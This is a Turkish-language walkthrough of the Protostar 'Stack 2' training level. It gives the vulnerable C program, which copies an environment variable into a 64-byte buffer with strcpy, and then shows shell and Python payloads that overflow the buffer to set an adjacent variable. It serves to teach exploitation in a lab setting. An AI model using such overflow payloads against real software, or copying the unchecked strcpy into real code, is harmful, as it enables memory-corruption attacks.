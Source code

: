 ```yaml
---
title: "Stack 2"
etiketler : "Protostar"
seriler: "Protostar"
sakla  : false
---
```


# Stack2.c
``` C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

**Amaç:** "you have correctly got the variable to the right value" satırını
yazdırmak.

Bu seviyede de istediğimiz cümleyi yazdırabilmek için programın akışını bir
şekilde değiştirmemiz gerekiyor. Önceki seviyede *modified* değişkeni
*0x61626364* olması yeterken şimdi kabuktaki **GREENIE** değişkeni
**0x0d0a0d0a** olmalı.

## Programın çalıştırılması
``` shell
user@protostar:/opt/protostar/bin$ ./stack2
stack2: please set the GREENIE environment variable
```

Program çalıştırıldığı zaman bir önceki seviyedeki gibi herhangi bir input
beklemeden, *GREENIE* değerini atamamızı istiyor. Bir önceki seviyeden farkı
sadece programa doğrudan değil dolaylı yoldan *Kabuk değişkenini kullanarak*
program akışını değiştirecek olmamız.

Bu seviyeyide aynı şekilde uzun bir text verdikten sonra modified değişkenini
değiştirip programın akışını istediğimiz şekilde yönlendirebiliriz. Bunun için
öncelikle bufferımızı doldurup *modified*'in değerini değiştirebildiğimizi
görelim.

``` shell
# 64 Tane "A" karakteri
user@protostar:/opt/protostar/bin$ export GREENIE='AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' ;
./stack2
Try again, you got 0x00000000

# 64 Tane "A" karakteri + 4 tane B
user@protostar:/opt/protostar/bin$ export GREENIE='AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB' ; ./stack2
Try again, you got 0x42424242
```

Evet bu şekilde modified değişkenini istediğimiz şekilde değiştirebildiğimize
göre bölümü bitirmek için istenilen değeri yazabilliriz.

## Modified Değişkeninin Değiştirilmesi

Koddaki `if(modified == 0x0d0a0d0a)` değerini Little Endiana göre yazdığım
`0a0d0a0d` yani `\x0a\x0d\x0a\x0d` değerini yazmam gerektiğini görüyorum. Bunu
iki şekilde basitçe payloadıma ekleyebilirim.

Echo ile "`\x0a\x0d\x0a\x0d`" değerini yazdırmak istersem, hex sayıları
yazdırabilmem için _-e_ parametresini ekliyorum.

``` shell
user@protostar:/opt/protostar/bin$ export GREENIE=$(echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0a\x0d\x0a\x0d')
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

Python ile:

``` shell
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c 'print 64*"A"+"\x0a\x0d\x0a\x0d"')
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```
